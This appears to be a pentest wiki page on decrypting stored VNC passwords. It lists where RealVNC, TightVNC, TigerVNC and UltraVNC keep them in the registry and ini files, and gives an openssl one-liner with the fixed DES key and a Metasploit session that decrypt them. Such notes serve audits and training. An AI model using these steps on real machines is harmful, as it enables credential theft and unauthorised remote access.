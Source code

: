 # VNC Config

## Theory

VNC clients uses a hardcoded DES key to store credentials. If you have access to a VNC config file you may be able to decrypt it as **the same key is used across multiple product lines**.

| VNC Client   | Config File                                     | Password                                      |
| ------------ | ----------------------------------------------- | --------------------------------------------- |
| _RealVNC_    | HKEY\_LOCAL\_MACHINE\SOFTWARE\RealVNC\vncserver | Value: Password                               |
| _TightVNC_   | HKEY\_CURRENT\_USER\Software\TightVNC\Server    | HKLM\SOFTWARE\TightVNC\Server\ControlPassword |
| tightvnc.ini | vnc\_viewer.ini                                 | Value: Password or PasswordViewOnly           |
| _TigerVNC_   | HKEY\_LOCAL\_USER\Software\TigerVNC\WinVNC4     | Value: Password                               |
| _UltraVNC_   | C:\Program Files\UltraVNC\ultravnc.ini          | Value: passwd or passwd2                      |

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
When you have extracted the hexadecimal-encoded password, using only native Linux tools we can decrypt it

```bash
echo -n <HEX_PASSWORD> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```
{% endtab %}

{% tab title="Msfconsole" %}
Msfconsole can be use to decrypt the password as follow (example with 17526b06234e5807 key)

```bash
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://notes.offsec-journey.com/enumeration/vnc" %}

{% embed url="https://github.com/frizb/PasswordDecrypts" %}
